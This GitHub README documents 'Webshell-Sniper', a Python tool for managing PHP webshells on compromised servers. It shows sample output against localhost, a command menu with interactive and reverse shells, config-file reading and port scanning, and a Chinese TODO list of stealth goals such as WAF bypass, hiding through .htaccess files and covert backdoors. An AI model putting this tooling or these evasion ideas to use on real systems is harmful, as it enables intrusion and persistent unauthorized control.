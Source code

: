 # Webshell-Sniper
A webshell manager via terminal

Usage :
```
Usage : 
        python sniper.py [URL] [METHOD] [AUTH]
Example : 
        python sniper.py http://127.0.0.1/c.php POST c
Author : 
        WangYihang <wangyihanger@gmail.com>
```

ScreenShot : 
[![asciicast](https://asciinema.org/a/Si84wbgKpRBmfyhrnPOL6H4nj.png)](https://asciinema.org/a/130893)

```
===================================================
           ____        _
          / ___| _ __ (_)_ __   ___ _ __
          \___ \| '_ \| | '_ \ / _ \ '__|
           ___) | | | | | |_) |  __/ |
          |____/|_| |_|_| .__/ \___|_|
                      |_|
===================================================
|          WebShell Manager Via Terminal          |
|  https://github.com/wangyihang/webshell-sniper  |
===================================================
[+] Checking the connection to the webshell...
[+] The status code is 200
[+] Checking whether the webshell is still work...
[+] Using challenge key : [AGWIBE] , value : [eOkdpmxxVDjKBCRLLcPShiXKuRNyJYfx]
[+] Using token : [rbVMwcFhabWLYlmTZTxEjNCZOqcNBVFM]
[+] Using POST method...
[+] The content is :
 rbVMwcFhabWLYlmTZTxEjNCZOqcNBVFMstring(32) "eOkdpmxxVDjKBCRLLcPShiXKuRNyJYfx"
rbVMwcFhabWLYlmTZTxEjNCZOqcNBVFMtest

[+] It works well!
[+] PHP 7.0.18-0ubuntu0.17.04.1 (cli) (built: Apr 26 2017 23:59:48) ( NTS )
Copyright (c) 1997-2017 The PHP Group
Zend Engine v3.0.0, Copyright (c) 1998-2017 Zend Technologies
    with Zend OPcache v7.0.18-0ubuntu0.17.04.1, Copyright (c) 1999-2017, by Zend Technologies
[+] Linux sun 4.10.0-28-generic #32-Ubuntu SMP Fri Jun 30 05:32:18 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
[+] ================================
[+] URL : http://127.0.0.1/c.php
[+] Method : POST
[+] Password : c
[+] Document Root : /var/www/html
[+] ================================
[+] PHP version : 
	PHP 7.0.18-0ubuntu0.17.04.1 (cli) (built: Apr 26 2017 23:59:48) ( NTS )
Copyright (c) 1997-2017 The PHP Group
Zend Engine v3.0.0, Copyright (c) 1998-2017 Zend Technologies
    with Zend OPcache v7.0.18-0ubuntu0.17.04.1, Copyright (c) 1999-2017, by Zend Technologies
[+] Kernel version : 
	Linux sun 4.10.0-28-generic #32-Ubuntu SMP Fri Jun 30 05:32:18 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
[+] ================================
Commands : 
        0. [h|help|?|\n] : show this help
        1. [sh|shell] : start an interactive shell
        2. [rsh|rshell] : start an reverse shell
        3. [db|database] : database manager
        4. [c|config] : find the config files
        5. [r|read] : read file
        6. [kv|kernel_version] : kernel version
        7. [pv|php_version] : php version
        8. [p|print] : print target server info
        9. [fwd] : find writable directory
        10. [fwpf] : find writable php file
        11. [gdf] : get disabled function
        12. [ps] : port scan
        13. [q|quit|exit] : quit
[sniper]=>
```

TODO :
- [x] 基础 shell 功能
- [x] 检测 shell 是否可用
- [ ] 维护目录栈
- [ ] WebShell批量管理
- [x] 初始化检测
- [x] 模块化
- [ ] 更深层的模块化
- [ ] 处理反弹shell的时候的阻塞情况
- [x] 数据进行压缩
- [x] 检测代码/命令执行结果 (通过插入 token 来判断)
- [x] 检测目标服务器禁用的 PHP 函数
- [ ] 如果命令执行失败 , 则使用可替代的 PHP 函数
- [ ] HTTP代理实现
- [ ] SOCKS代理实现
- [ ] 编写多种编码器 , 对消息进行编码
- [ ] 在 HTTP 头部中隐藏信息
- [ ] 关联 MSF
- [x] 内核版本
- [ ] 检测 SUID 程序
- [x] 获取被禁用的函数列表
- [ ] 非阻塞式的反弹 shell
- [x] socat 反弹一个交互式的 shell (可用 vim 等全屏工具)
- [x] 检测可写目录
- [x] 检测配置文件错误
- [ ] 利用 PHP 常驻内存
- [x] 交互界面
- [ ] 帮助文档
- [ ] 使用一些通用的技巧来绕过 WAF
- [ ] webshell 生成器
- [x] 寻找可写 php 文件(.htaccess / .user.ini)来达到更深层的隐藏目的
- [ ] 不直接执行命令 , 而是构造一个比较隐蔽的漏洞
- [x] 反弹 shell 模块
- [ ] 检测边界防火墙端口 / 协议禁用情况
- [x] 端口扫描
- [ ] 自动检测更新
- [x] 日志分等级
- [ ] WIKI 模块
- [ ] 开发文档(如何编写插件)
- [x] 数据库支持
- [ ] 自动寻找配置文件
- [ ] 整站打包下载
- [x] 数据库管理
- [ ] 插件市场
- [ ] 处理 Ctrl + C 信号
- [ ] 支持命令历史 (readline库)
- [ ] 实现 PDO / mysql_connection 的数据库操作方式 (目前只实现了 mysqli_connection )

支持情况 :
```
测试环境 :
===================================
    攻击者 :
        Linux
        python 2.7
    被控者 :
        apache 2.4
        php 7.0
===================================
目前只支持攻击者为 Linux 平台
被控者为为 PHP 与 MYSQL
```
